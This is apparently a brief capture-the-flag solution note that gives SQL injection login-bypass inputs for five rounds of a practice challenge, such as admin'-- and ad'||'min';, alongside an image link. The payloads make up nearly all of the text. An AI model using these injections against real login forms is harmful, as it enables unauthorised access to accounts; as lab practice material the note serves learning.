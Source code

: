 ![image](https://github.com/user-attachments/assets/42a27f69-1c7c-4c77-a6a2-f050c7e36f11)

Round 1 is simple.
Enter admin'-- in the username.
Round 2 : SELECT * FROM users WHERE username='admin' AND password='a' is not 'b'
Round 3 : admin';
Round 4: ad'||'min';
Round 5 : ad'||'min';



